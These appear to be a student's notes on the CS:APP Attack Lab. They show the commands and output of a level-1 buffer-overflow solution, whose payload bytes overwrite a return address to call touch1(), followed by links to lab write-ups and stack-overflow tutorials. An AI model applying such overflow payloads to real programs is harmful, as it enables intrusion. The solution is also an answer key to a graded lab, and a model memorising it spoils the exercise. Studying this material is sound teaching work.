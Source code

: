 ```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
- 一些可以参考的链接
	- [zhuanlan.zhihu.com/p/476396465](https://zhuanlan.zhihu.com/p/476396465)
	- [【CSAPP】AttackLab-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2389328)
	- [【深入理解计算机系统】CSAPP-实验三：AttackLab详解\_attacklab实验三-CSDN博客](https://blog.csdn.net/qq_42234461/article/details/108661775)
	- [Site Unreachable](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
	- [Fetching Title#x41i](https://tqnwhz.github.io/blog/2023/12/04/CSAPP-Lab-3)
	- [zhuanlan.zhihu.com/p/104340864](https://zhuanlan.zhihu.com/p/104340864)
- 栈溢出
	- [zhuanlan.zhihu.com/p/25816426](https://zhuanlan.zhihu.com/p/25816426)
	- [zhuanlan.zhihu.com/p/25892385](https://zhuanlan.zhihu.com/p/25892385)